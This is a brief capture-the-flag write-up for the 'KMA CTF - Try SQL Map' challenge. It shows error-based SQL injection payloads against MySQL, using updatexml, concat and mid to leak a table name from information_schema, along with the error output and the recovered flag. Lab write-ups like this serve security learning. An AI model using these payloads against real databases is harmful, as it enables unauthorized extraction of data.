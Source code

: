 # KMA CTF - Try SQL Map

**hints**: The length of flag table name > 32 characters

`Quick sqlmap` --> sql injection `error based`!

**Payload**:
```
updatexml(0,concat(0xa,(select table_name from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
flahga123456789xxsxx012xxxxxxxx'
```

Because of the length, we use mid function in MySQL to cut the rest of flag that are not fullt obtain.

```
updatexml(0,concat(0xa,(select mid(table_name,20,25) from information_schema.tables limit 1)),0)
```
**Result**:
```
XPATH syntax error: '
x012xxxxxxxxx34567xx1'
```

Ok, merge it together: `flahga123456789xxsxx012xxxxxxxxx34567xx1`

**flag**: `KMACTF{flahga123456789xxsxx012xxxxxxxxx34567xx1}`
